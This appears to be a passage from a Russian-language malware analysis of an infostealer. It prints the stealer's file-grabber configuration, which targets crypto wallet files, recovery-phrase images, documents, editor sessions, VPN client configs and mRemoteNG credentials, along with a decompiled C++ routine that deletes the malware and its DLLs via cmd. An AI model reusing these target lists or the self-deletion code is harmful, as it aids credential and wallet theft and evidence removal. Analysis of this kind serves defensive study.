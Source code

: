 Настройки файлграббера : 

```
RECENT|%RECENT%\|*.txt,*.docx,*.xlsx|5|1|1|RECENT|%RECENT%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DESK|%DESKTOP%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DOCS|%DOCUMENTS%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DOCS|%DOCUMENTS%\|*.txt,*.docx,*.xlsx|8|1|1|DESK|%DESKTOP%\|*.txt,*.docx,*.xlsx|8|1|1|NOTEPAD|%APPDATA%\Notepad++|*.xml|10|1|1|NOTEPAD|%APPDATA%\Notepad++\backup\|*.*|10|1|1|SUBLIME|%APPDATA%\Sublime Text 3\Local\Session.sublime_session\|*.sublime_*|10|1|1|VPN_CiscoVPN|%PROGRAMFILES%\\..\\ProgramData\\Cisco\Cisco AnyConnect Secure Mobility Client\Profile\|*.xml|999|1|0|VPN_Fortinet|%PROGRAMFILES%\Fortinet\FortiClient\|*.conf,*.xml|999|1|0|VPN_SonicWall|%APPDATA%\SonicWall\Global VPN Client\|*.rcf|999|1|0|VPN_F5|%PROGRAMFILES%\F5 VPN\|*.xml,*.ini|999|1|0|VPN_F5|%PROGRAMFILES_86%\F5 VPN\|*.xml,*.ini|999|1|0|VPN_Pulse|%PROGRAMFILES%\\..\\ProgramData\\Pulse Secure\VPN Client\config\|*.xml,*.conf|999|1|0|VPN_CheckPoint|%PROGRAMFILES_86%\CheckPoint\Endpoint Connect\|trac.config|999|1|0|VPN_CheckPoint|%APPDATA%\CheckPoint\Endpoint Security VPN\|*.xml,*.ini|999|1|0|VPN_OpenVPN|%PROGRAMFILES%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|VPN_OpenVPN|%PROGRAMFILES_86%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|VPN_OpenVPN|%USERPROFILE%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|RemoteNG|%APPDATA%\mRemoteNG\|*.xml|999|1|0|
```

# Self delete

Удаляет себя после работы через cmd и простенькую команду с делеем.

```cpp
void __noreturn mlw_self_delete()
{
  LPCSTR *v0; // eax
  LPCSTR *v1; // eax
  int v2[3]; // [esp+0h] [ebp-44Ch] BYREF
  int v3[3]; // [esp+Ch] [ebp-440h] BYREF
  void *v4[3]; // [esp+18h] [ebp-434h] BYREF
  CHAR Filename[1004]; // [esp+24h] [ebp-428h] BYREF
  SHELLEXECUTEINFOA pExecInfo; // [esp+410h] [ebp-3Ch] BYREF

  sub_4113E0(Filename, 0x3E8u);
  sub_4113E0(&pExecInfo, 0x3Cu);
  GetModuleFileNameA(0, Filename, 0x104u);
  lstcpy((LPSTR *)v4, (CHAR *)sSelfDelete);
  v0 = (LPCSTR *)lstrcat((int)v4, (int)v3, Filename);
  lstrcpy((int *)v4, v0);
  get_str_from_this(v3);
  v1 = (LPCSTR *)lstrcat((int)v4, (int)v2, sSelfDelete_0);// /c timeout /t 5 & del /f /q "
                                                // " & del "C:\ProgramData\*.dll"" & exit
  lstrcpy((int *)v4, v1);
  get_str_from_this(v2);
  pExecInfo.cbSize = 60;
  pExecInfo.fMask = 0;
  pExecInfo.hwnd = 0;
  pExecInfo.lpVerb = (LPCSTR)sOpen;
  pExecInfo.lpFile = (LPCSTR)sCmdExe;
  pExecInfo.lpParameters = (LPCSTR)get_str_from_this_0(v4);
  memset(&pExecInfo.lpDirectory, 0, 12);
  ShellExecuteExA(&pExecInfo);
  sub_4113E0(&pExecInfo, 0x3Cu);
  sub_4113E0(Filename, 0x3E8u);
  sub_4132F0((int *)v4);
  ExitProcess(0);
}
```
